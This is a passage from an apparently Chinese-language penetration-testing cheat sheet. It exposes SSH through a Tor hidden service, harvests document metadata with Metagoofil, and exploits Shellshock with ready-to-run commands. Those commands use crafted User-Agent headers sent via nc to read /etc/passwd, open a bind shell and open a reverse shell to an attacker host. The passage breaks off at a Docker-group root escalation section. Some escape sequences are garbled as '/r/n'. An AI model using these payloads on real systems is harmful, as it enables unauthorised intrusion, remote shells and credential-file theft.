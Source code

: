 # 绑定 ssh 到 tor 服务端口 80
# /etc/tor/torrc
SocksPolicy accept 127.0.0.1
SocksPolicy accept 192.168.0.0/16
Log notice file /var/log/tor/notices.log
RunAsDaemon 1
HiddenServiceDir /var/lib/tor/ssh_hidden_service/
HiddenServicePort 80 127.0.0.1:22
PublishServerDescriptor 0
$ /etc/init.d/tor start
$ cat /var/lib/tor/ssh_hidden_service/hostname
3l5zstvt1zk5jhl662.onion

# ssh 客户端连接
$ apt-get install torsocks
$ torsocks ssh login@3l5zstvt1zk5jhl662.onion -p 80
Metagoofil – 元数据收集工具
注：Metagoofil 是一款利用Google收集信息的工具。

# http://www.edge-security.com/metagoofil.php
# 它可以自动在搜素引擎中检索和分析文件，还具有提供Mac地址，用户名列表等其他功能
$ python metagoofil.py -d example.com -t doc,pdf -l 200 -n 50 -o examplefiles -f results.html
利用 Shellshock
# 一个发现并利用服务器 Shellshock 的工具
# https://github.com/nccgroup/shocker
$ ./shocker.py -H 192.168.56.118  --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose

# 查看文件
$ echo -e "HEAD /cgi-bin/status HTTP/1.1/r/nUser-Agent: () { :;}; echo /$(</etc/passwd)/r/nHost: vulnerable/r/nConnection: close/r/n/r/n" | nc 192.168.56.118 80

# 绑定 shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1/r/nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh/r/nHost: vulnerable/r/nConnection: close/r/n/r/n" | nc 192.168.56.118 80

# 反弹 Shell
$ nc -l -p 443
$ echo "HEAD /cgi-bin/status HTTP/1.1/r/nUser-Agent: () { :;}; /usr/bin/nc 192.168.56.103 443 -e /bin/sh/r/nHost: vulnerable/r/nConnection: close/r/n/r/n" | nc 192.168.56.118 80
获取 Docker 的 Root
# 获取  Docker 的 Root
# user 必须在 docker 用户组中
ek@victum:~/docker-test$ id
uid=1001(ek) gid=1001(ek) groups=1001(ek),114(docker)
